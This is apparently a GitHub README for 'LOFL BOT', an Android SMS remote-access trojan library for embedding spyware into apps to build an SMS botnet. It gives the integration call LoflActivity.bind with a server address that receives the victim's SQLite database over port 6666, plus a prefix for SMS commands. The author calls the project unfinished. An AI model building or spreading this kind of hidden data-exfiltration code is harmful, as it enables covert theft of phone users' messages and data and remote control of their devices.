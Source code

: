 # LOFL BOT
### A 3-year-old injectable remote access SMS RAT. No backend. Therefore, the spyware remote commands won't work. There is a self-destructible SMS notification messenger app. Like snapchat in your drawer. It's hidden in a git branch. I learned Android pentesting with library. I'm really embarrassed of the code. I removed this after a Nigerian NSA officer starred and followed me. This was my first RAT.

This project was initially a self destructable messaging app that turned into a library called lofl for automating the process of creating an infector app for an sms botnet. im not finished. I broke the app turning it into a library. i need to figure out how to override the binary broadcast receiver in the app package.
 
 1. Put the following line of code in oncreate of your mainactivity class
 
 LoflActivity.bind(this,"10.0.2.2", "123", this.getClass().getName());
 
 the first parameter is the server address which is responsible for receiving a sqlite database file from the users phone.
 
 the second parameter is what you will put at the start of your sms commands to tell the app that 'this is a command'
 
 the third paremeter is to let lofl know what your launch activity is
 
 the database is sent over port 6666
